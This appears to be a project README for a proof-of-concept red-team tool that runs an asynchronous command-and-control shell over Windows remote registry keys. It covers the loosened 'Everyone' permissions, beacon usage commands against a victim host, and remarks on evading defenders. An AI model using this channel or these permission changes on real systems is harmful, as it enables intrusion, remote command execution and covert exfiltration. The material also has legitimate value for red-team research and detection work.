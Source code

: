 # Everything Can Be A Shell... An asynchronous shell at least...


### Disclaimer
The shells in this repository are all Proof-of-Concept and have only been tested in my own lab. Enjoy :)
*... Also, at this moment, the repository only contains a single shell based on Windows Registry keys. However, I do hope to add more in the future. *

### The Concept
This repository is made to explore untraditional ways of establishing command and control (C2) on Microsoft Windows systems and to keep the SOC on its toes. The shells in this repository are asynchronous just like Cobalt Strikes shells. The client (beacon) will check-in at a given interval (sleep-timer) for any new commands from the server (C2). If a command is found, the beacon will execute it and post the result back to the server. 

# Shell 1: C2 using Windows registry keys

## Brief description: 
This shell is based on Windows Registry keys. Yes, registry keys as in regedit.exe. The idea comes from the fact, that Windows allows for users (with the correct permissions) to read, write and/or delete registry keys and values on remote systems using the WinReg Protocol (MS-RRP). The "protocol" is built on top of the RPC protocol and is described by Microsoft: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

**Demonstration:**
(https://www.youtube.com/watch?v=jOPCbK-WF1M): The C2 server is running on the left while the beacon is on the right

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the client needs to be permitted to make changes to a user-defined registry key.

**Limitations:** 
Since the traffic is based on RPC and SMB, it should only really be suitable for lateral movement on local networks. 

**Security considerations:**
The permissions allows for anyone to connect to the servers registry database. Each registry key is protected by its own SACL, and so the server is only as insecure as the applied permissions on other keys. Consequences could potentially be dire :D

## How it works:  
1. When the server starts, the Remote Registry Service is enabled and started. 
2. A registry key HKLM\Software\RegistryC2\\<user-defined> is created along with the following values: cmd, output & sleep. The user-defined registry key is specific to a single beacon and could be compared to setting up a listener.
3. Read/Write permissions are then set for the user "Everyone" on this newly created registry key.
4. Permissions are likewise set on the key: HKLM\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that any client can authenticate to the server. (Note: On exiting/closing the server, these permissions are removed again.) 
5. When executing the beacon on the victim machine, it will connect to the C2 server using the WinReg protocol, and read the newly created registry key for the value of "sleep", to determine how often to check-in. 
6. When the timer is up, the client checks-in and executes the command found in the "cmd"-value. 
7. The result of the command is written as a string to the "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.
  
## Usage:
**Setup the server on the attackers machine (listener/C2):**
``` 
RegC2Server.exe <Registry key name to use with the client>
Example: RegC2Server.exe victim01
```
**Starting the client on the victim (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
Example: RegC2Client.exe ws01 victim01
```

**Since this is a PoC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


## Screenshots:
**Starting the server:**  
Below, the server is started with the argument "victim01". The Remote Registry Service is attempted to be started, and the necessary permissions are put in place. The Registry key HKLM\Software\RegistryC2\victim01 is created with its necessary values: cmd, output & sleep. 
<img src="https://user-images.githubusercontent.com/35890107/186360543-a9bf7634-ea0d-4a0c-a9e5-4956701e0af3.png" width=60% height=60%>
&nbsp;  
&nbsp;  
**Permissions are set:**  
Special permissions are set for "Everone" on the Registry key "RegistryC2\victim01".  
<img src="https://user-images.githubusercontent.com/35890107/186360608-0ac3a430-912b-4a19-824d-3cfdedb5201b.png" width=60% height=60%>
&nbsp;  
&nbsp;  
**Beacon running on client:**  
The beacon is started on the victims machine. The beacon has updated its sleep-timer, found the command to execute and posted the result back to the C2-server.  
<img src="https://user-images.githubusercontent.com/35890107/186356461-715947b2-5926-40fe-9d9f-2264ebe20476.png" width=30% height=30%>
&nbsp;  
&nbsp;  
**Output is posted back to the server:**  
<img src="https://user-images.githubusercontent.com/35890107/186360638-91884a40-eaa8-4169-a148-95d14b26b894.png" width=60% height=60%>  
&nbsp;  
&nbsp;  
**Another command is executed:**  
<img src="https://user-images.githubusercontent.com/35890107/186360670-a328752d-8221-4811-8ae1-0453c211ff03.png" width=60% height=60%>  
&nbsp;  
&nbsp;  
**Exiting server:**  
The server is being closed and the Registry keys are no longer available.  
<img src="https://user-images.githubusercontent.com/35890107/186360706-dce99907-6027-4bad-abc4-ade26429fe41.png" width=60% height=60%>


## How does it look in Wireshark? 
Well, it's not pretty. First, protocols are being negotiated using SMB and a connection is made for IPC$ followed by a request for "winreg".    
<img src="https://user-images.githubusercontent.com/35890107/186396507-e940f94e-feea-4e72-b0b7-8041fe696377.png" width=80% height=80%>
&nbsp;  
&nbsp;  
  
Scrolling down, the protocols are switched to DCERPC and WINREG. We also see a "QueryValue" request and response.  
<img src="https://user-images.githubusercontent.com/35890107/186397638-300e0e07-c927-4a96-833f-bcb7499cc8aa.png" width=80% height=80%>
&nbsp;  
&nbsp;  
  
Interestingly, on examining the Winreg protocols QueryValue, we see that all the data is placed in an "Encrypted stub data" meaning that commands between the C2 and the beacon are encrypted by default, which is quite nice.  
<img src="https://user-images.githubusercontent.com/35890107/186397649-2033e1ca-a853-4ab0-a2b2-ef1c55e8c711.png" width=80% height=80%>

## Conclusion
Using the WinReg protocol for command and control purposes will undoubtly look unfamiliar to a blue team. On a network where Remote Registry is not used at all, this will definitly stand out; however it might also go completely undetected due to a lag of alerts on this particular protocol. Lastly, it's pretty convenient that the data is encrypted by default making it even more difficult for a blue-team to figure out what has been exfiltrated. Now, such logs could ofc. be found elsewhere. 
